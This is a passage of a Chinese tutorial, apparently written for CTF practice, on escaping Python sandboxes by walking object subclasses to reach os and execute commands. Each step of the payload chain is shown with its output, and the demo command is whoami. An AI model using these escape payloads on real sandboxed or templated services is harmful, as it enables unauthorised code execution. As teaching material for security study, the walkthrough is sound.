可以看到我的系统里安装的乱七八糟的东西多得很，如果是做题的话，建议用无依赖的环境来尝试

尝试调用 os 

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
().__class__.__bases__[0].__subclasses__()[214].__init__.__globals__['os'].system('whoami')
--------------------
desktop-p7e2la8\sanqiushu
```

完美，其他的几个我也试了，都差不多

```python
print(''.__class__) # 打印空字符的类名
p> <class 'str'>

print(''.__class__.__bases__)  # 打印空字符所在类的基类类名，返回 tuple (元组)
p> (<class 'object'>,)

print(''.__class__.__bases__[0])  # 这里取第0个类
p> <class 'object'>

print(''.__class__.__bases__[0].__subclasses__())  # 打印空字符 所在类的 基类的 第0个类的 所有子类 # 基类一定是 object ，object 的所有子类就是当前环境下的所有类了啊
p> [<class 'type'>, <class 'weakref'>, ....., <class 'kiwisolver.Solver'>] 

print(''.__class__.__bases__[0].__subclasses__()[214])  # 我们取第214个
p> <class 'inspect.BlockFinder'>

print(''.__class__.__bases__[0].__subclasses__()[214].__init__)  # 我们调用类的初始化方法将 inspect.BlockFinder 初始化为一个对象
p> <function BlockFinder.__init__ at 0x000001D9F28048B0>  # 方法当然也是对象了

print(''.__class__.__bases__[0].__subclasses__()[214].__init__.__globals__)  # 打印一下我们初始化的函数的全局变量(也就是属性)
p> {'__name__': 'inspect', '__doc__': "......", '__package__': '', ......, '__builtins__': {'__name__': 'builtins', ......},'os': <module 'os' from 'F:\\Runtime\\python3\\lib\\os.py'>}  # 可以看到这里有 os
print(''.__class__.__bases__[0].__subclasses__()[214].__init__.__globals__['os'])  # 可以直接调用
p> <module 'os' from 'F:\\Runtime\\python3\\lib\\os.py'>
print(''.__class__.__bases__[0].__subclasses__()[214].__init__.__globals__['os'].system('whoami')) # 命令执行
p> desktop-p7e2la8\sanqiushu\n0
```

哈哈哈，同理下面几个只有比较细微的差别

```python
print(''.__class__.__base__.__subclasses__()[214].__init__.__globals__['os'].system('whoami'))
print(''.__class__.__mro__[1].__subclasses__()[214].__init__.__globals__['os'].system('whoami'))
```

自己运行一下看看看即可

### 尝试命令执行 2
